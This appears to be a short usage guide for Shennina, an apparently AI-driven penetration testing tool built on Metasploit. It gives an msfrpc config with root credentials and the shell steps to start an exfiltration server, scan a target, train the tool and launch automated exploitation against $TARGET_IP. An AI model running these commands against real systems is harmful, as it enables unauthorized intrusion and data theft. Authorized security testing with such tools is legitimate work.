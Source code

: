 # Shennina

/config/msfrpg-config.json

{
  "password": "root",
  "user": "root",
  "host": "172.17.0.1",
  "port": 55553,
  "ssl": false
}

## Step 1 Shell 1

# -------runs exfiltration server (separeted console)

cd ./exfiltration-server/

sudo ./run-server.sh

## Step 2 Shell 2

# ------runs msfconsole (separeted console)

./scripts/run-msfrpc.py

## Step 3 Shell 3

# ------runs shennina

./shennina.py --initialize-exploits-tree


#------ scanning phase------# (Replace $TARGET_IP with the IP which is to be attacked). 127.0.0.1 is the kali localhost that runs metasplpit RPC. Otherwise you define another IP.

sudo ./shennina.py --lhost 127.0.0.1 --target $TARGET_IP --service-scan-only

# ------------- training shennina ------------------#
sudo ./shennina.py --target $TARGET_IP --lhost 127.0.0.1 --training-mode

# --------------- attacking with recommended exploit given by shennina AI -------------------#
sudo ./shennina.py --target $TARGET_IP --lhost 127.0.0.1 --exploitation-mode



